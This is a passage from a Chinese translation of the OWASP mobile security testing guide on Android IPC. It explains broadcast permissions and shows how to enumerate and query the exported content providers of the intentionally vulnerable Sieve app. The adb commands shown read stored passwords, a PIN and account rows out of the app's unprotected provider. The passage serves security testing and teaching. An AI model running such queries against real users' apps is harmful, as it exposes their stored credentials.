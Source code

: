 BroadcastReceivers 应该使用该`android:permission`属性；否则，其他应用程序可以调用它们。您可以使用它`Context.sendBroadcast(intent, receiverPermission);`来指定接收者[读取广播](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent, java.lang.String))所必须具有的权限。您还可以设置一个明确的应用程序包名称，以限制此 Intent 将解析到的组件。如果保留为默认值 (null)，则将考虑所有应用程序中的所有组件。如果非空，则 Intent 只能匹配给定应用程序包中的组件。

### 动态分析[¶](https://mas.owasp.org/MASTG/Android/0x05h-Testing-Platform-Interaction/#dynamic-analysis_4)

[您可以使用MobSF](https://mas.owasp.org/MASTG/Tools/0x08a-Testing-Tools/#mobsf)枚举 IPC 组件。要列出所有导出的 IPC 组件，请上传 APK 文件，组件集合将显示在以下屏幕中：

![img](https://mas.owasp.org/assets/Images/Chapters/0x05h/MobSF_Show_Components.png)

#### Content Provider(内容提供者)[¶](https://mas.owasp.org/MASTG/Android/0x05h-Testing-Platform-Interaction/#content-providers)

“Sieve”应用程序实现了一个易受攻击的内容提供程序。要列出 Sieve 应用程序导出的Content Provider(内容提供者)，请执行以下命令：

```
$ adb shell dumpsys package com.mwr.example.sieve | grep -Po "Provider{[\w\d\s\./]+}" | sort -u
Provider{34a20d5 com.mwr.example.sieve/.FileBackupProvider}
Provider{64f10ea com.mwr.example.sieve/.DBContentProvider}
```

一旦确定，您可以使用[jadx](https://mas.owasp.org/MASTG/Tools/0x08a-Testing-Tools/#jadx)对应用程序进行逆向工程并分析导出的内容提供程序的源代码以识别潜在的漏洞。

要识别Content Provider(内容提供者)的相应类别，请使用以下信息：

- 包裹名称：`com.mwr.example.sieve`.
- Content Provider(内容提供者)类名：`DBContentProvider`.

在分析类`com.mwr.example.sieve.DBContentProvider`时，您会看到它包含几个 URI：

```
package com.mwr.example.sieve;
...
public class DBContentProvider extends ContentProvider {
    public static final Uri KEYS_URI = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");
    public static final Uri PASSWORDS_URI = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
...
}
```

使用以下命令使用识别的 URI 调用Content Provider(内容提供者)：

```
$ adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Keys/
Row: 0 Password=1234567890AZERTYUIOPazertyuiop, pin=1234

$ adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/
Row: 0 _id=1, service=test, username=test, password=BLOB, email=t@tedt.com
Row: 1 _id=2, service=bank, username=owasp, password=BLOB, email=user@tedt.com

$ adb shell content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection email:username:password --where 'service=\"bank\"'
Row: 0 email=user@tedt.com, username=owasp, password=BLOB
```
